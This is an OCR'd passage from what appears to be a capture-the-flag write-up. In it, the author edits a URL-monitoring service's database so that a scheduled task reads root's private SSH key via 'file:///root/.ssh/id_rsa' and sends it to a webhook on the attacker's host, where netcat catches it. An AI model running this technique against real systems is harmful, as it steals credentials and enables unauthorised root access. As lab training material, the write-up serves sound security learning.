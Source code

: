 ```bash

mysql> select * from tasks;
+--------------------------------------+--------------------------+-----------+--------------------------+-------------+---------------------+---------------------+
| id                                   | webhookUrl               | onlyError | monitoredUrl             | frequency   | created_at          | updated_at          |
+--------------------------------------+--------------------------+-----------+--------------------------+-------------+---------------------+---------------------+
| 509cefcd-8058-4f41-b3d7-a8200e6c181d | http://10.10.14.166:9000 |         0 | http://10.10.14.166:8000 | */1 * * * * | 2022-09-17 21:51:24 | 2022-09-17 21:51:24 |
+--------------------------------------+--------------------------+-----------+--------------------------+-------------+---------------------+---------------------+
1 row in set (0.00 sec)
```

so if we're quick enough we can update those tasks and instead of monitoring a validated url  
we can set watever we want here without any restrictions, so we can just dump the private ssh key for root  
```bash
mysql> select * from tasks;
+--------------------------------------+--------------------------+-----------+--------------------------+-------------+---------------------+---------------------+
| id                                   | webhookUrl               | onlyError | monitoredUrl             | frequency   | created_at          | updated_at          |
+--------------------------------------+--------------------------+-----------+--------------------------+-------------+---------------------+---------------------+
| 447cb497-ac06-43fe-a059-8380b9084668 | http://10.10.14.166:9000 |         0 | http://10.10.14.166:8000 | */1 * * * * | 2022-09-17 22:01:24 | 2022-09-17 22:01:24 |
+--------------------------------------+--------------------------+-----------+--------------------------+-------------+---------------------+---------------------+
1 row in set (0.00 sec)

mysql> update tasks set monitoredUrl='file:///root/.ssh/id_rsa';
Query OK, 1 row affected (0.00 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> select * from tasks;
+--------------------------------------+--------------------------+-----------+--------------------------+-------------+---------------------+---------------------+
| id                                   | webhookUrl               | onlyError | monitoredUrl             | frequency   | created_at          | updated_at          |
+--------------------------------------+--------------------------+-----------+--------------------------+-------------+---------------------+---------------------+
| 447cb497-ac06-43fe-a059-8380b9084668 | http://10.10.14.166:9000 |         0 | file:///root/.ssh/id_rsa | */1 * * * * | 2022-09-17 22:01:24 | 2022-09-17 22:01:24 |
+--------------------------------------+--------------------------+-----------+--------------------------+-------------+---------------------+---------------------+
1 row in set (0.00 sec)
```
and we get that back in our netcat listenet on 9000
```bash
```